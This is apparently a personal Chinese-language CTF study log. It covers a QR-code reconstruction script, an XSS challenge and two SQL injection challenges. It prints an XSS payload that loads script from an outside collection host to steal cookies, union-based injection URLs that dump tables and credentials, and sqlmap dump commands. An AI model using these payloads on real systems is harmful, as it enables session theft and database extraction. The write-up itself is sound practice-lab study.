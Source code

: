 # CTF SR 23.03.30

## Misc Bugku 1 和 0 的故事

0 对应白色，1 对应黑色，转换成图片后在左上左下右上添加定位符即可扫描得到 flag

```py
from PIL import Image

with open("./1 和 0 的故事. txt", 'r') as f:
    lines = f.readlines()
    width = len(lines[0]) - 1 # \n
    height = len(lines)
    img = Image.new('RGB', (height, width), color = 'white')
    width, height = img.size
    print(img.size)
    for x in range(width):
        for y in range(height):
            num = lines[y][x]
            if num == '0':
                img.putpixel((x, y), (255, 255, 255))
            else:
                img.putpixel((x, y), (0, 0, 0))

    # 添加定位图案
    for i in range(7):
        img.putpixel((i, 0), (0, 0, 0))
        img.putpixel((0, i), (0, 0, 0))
        img.putpixel((i, 6), (0, 0, 0))
        img.putpixel((6, i), (0, 0, 0))

        img.putpixel((width - i - 1, 0), (0, 0, 0))
        img.putpixel((width - i - 1, 6), (0, 0, 0))
        img.putpixel((width - 6 - 1, i), (0, 0, 0))
        img.putpixel((width - 1, i), (0, 0, 0))

        img.putpixel((i, width - 7), (0, 0, 0))
        img.putpixel((0, i + width - 7), (0, 0, 0))
        img.putpixel((i, 6 + width - 7), (0, 0, 0))
        img.putpixel((6, i + width - 7), (0, 0, 0))

    for i in range(3):
        for j in range(3):
            img.putpixel((i + 2, j + 2), (0, 0, 0))
            img.putpixel((i + 2 + width - 7, j + 2), (0, 0, 0))
            img.putpixel((i + 2, j + 2 + width - 7), (0, 0, 0))

    img.save("01QRcode.bmp")
```

https://www.cnblogs.com/luogi/p/15469106.html
https://cli.im/deqr

## Web Bugku 留言板

可以用 burp 绕过前端输入过滤，但是后端仍存在过滤，转义了双引号、尖括号等，尝试使用题目给出的插入图片方法，能获得 img 标签，但是由于双引号被过滤，无法闭合 URL，无法触发 onerror，网上题解都是通过 dirsearch 扫到 admin.php 和 db.sql，但由于题目修改，db.sql 文件已经不存在了，暂时只能根据网上方法得到的用户名和密码登入 admin (没有尝试 sql 注入)，后端存储部分没有做过滤，可以直接触发 alert，flag 在 cookie 中找到。

```
content=<script>alert(document.cookie)</script>
```

因为后端没有过滤所以可以直接插入 xss 平台链接

```html
<sCRiPt sRC=//uj.ci/ao></sCrIpT>
```

但是等了一段时间没有收到 flag，不知道后台有没有定期访问管理页面的逻辑。

## web sql

好久没学复习下
没有 from 的 select 一般是显示数据或者赋值之用。https://bbs.csdn.net/topics/390345636
read https://ctf-wiki.org/web/sqli/

## sqlmap

sqlmap 是一款基于 python 编写的渗透测试工具，在 sql 检测和利用方面功能强大，支持多种数据库。

## [极客大挑战 2019]LoveSQL

username 用 `1'or 1 = 1 #` 即可登入得到回显

```txt
Hello admin！

Your password is '4e02933eb05b9feda14ad62539b4e103'
```

但得到的不是 flag，继续尝试注入
`order by` 判断列数  

```
check.php?username=admin%27order by 3%23&password=1
```

`union select` 判断回显点为 2, 3

```
check.php?username=-1%27union select 1, 2, 3%23&password=1
```

table geekuser,l0ve1ysq1

```
check.php?username=-1%27union select 1, user(), group_concat(table_name) from information_schema.tables where table_schema=database()%23&password=1
```

column id,username,password

```
check.php?username=-1%27union select 1, user(), group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='l0ve1ysq1'%23&password=1
```

flag{128a2a23-2c62-4c08-8173-0c409bc37236}

```
check.php?username=-1%27union select 1, user(), group_concat(id,username,password) from l0ve1ysq1%23&password=1
```

## [MoeCTF 2022]Sqlmap_boy

网页注释发现语句

```html
<!-- $sql = 'select username,password from users where username="'.$username.'" && password="'.$password.'";'; -->
```

双引号闭合 `1"or 1 = 1#`

```
?id=1
```

练习使用 sqlmap，需要在 cookie 里加上 PHPSESSID

```sh
python ./sqlmap.py -u "http://node1.anna.nssctf.cn:28480/secrets.php?id=1" --level 4 --cookie PHPSESSID=608b0af92607fd43bf536e325b275f10 --dbs
python ./sqlmap.py -u "http://node1.anna.nssctf.cn:28480/secrets.php?id=1" --level 4 --cookie PHPSESSID=608b0af92607fd43bf536e325b275f10 -D moectf --tables
python ./sqlmap.py -u "http://node1.anna.nssctf.cn:28480/secrets.php?id=1" --level 4 --cookie PHPSESSID=608b0af92607fd43bf536e325b275f10 -D "moectf" -T "flag" --columns
python ./sqlmap.py -u "http://node1.anna.nssctf.cn:28480/secrets.php?id=1" --level 4 --cookie PHPSESSID=608b0af92607fd43bf536e325b275f10 -D "moectf" -T "flag" -C "flAg" --dump
```